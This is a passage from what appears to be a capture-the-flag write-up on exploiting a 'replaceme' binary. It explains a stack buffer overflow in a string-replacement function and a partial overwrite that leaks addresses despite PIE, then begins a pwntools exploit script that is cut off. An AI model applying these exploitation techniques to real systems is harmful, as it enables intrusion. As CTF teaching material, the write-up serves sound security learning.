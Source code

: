     - If there is content after `oldString`, it copies the remaining part.
:::

This function will replace the string we specify in the format `s/old/new/`. And the way it identifies the strings `old` and `new` is based on the `/` and `s/` characters.

# Exploit Development

So we now know how `do_replacement` function works, we know that our `input` will store that the stack by the first `memcpy` then our `replacement` will append after that `input`

![alt text](image.png)

With that, we can perform a `Buffer Overflow` attack, by letting the first input is `<padding> + <string need to replace>` and then the second input is `payload`

We know that the `ask_input` function uses `read` to read our input, so if our string connects to some memory address, it only stops when it encounters a null byte. So that we can do `Partial Overwrite` + `Leak address` at the same time. The reason we do `Partial Overwrite` is because `PIE` is enabled, but the last byte of each address is still the same because that is the `offset` from `base`

So that my exploit will be:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./replaceme_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*do_replacement+236
        b*do_replacement+544
        c
        '''.format(**locals()), *a, **kw, aslr=False)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, aslr=False)

p = start()

# ==================== EXPLOIT ====================

def parse(_match, replace):
    """Creates a pattern using 's/match/replace/' format"""
    prefix = b"s"
    slash = b"/"
```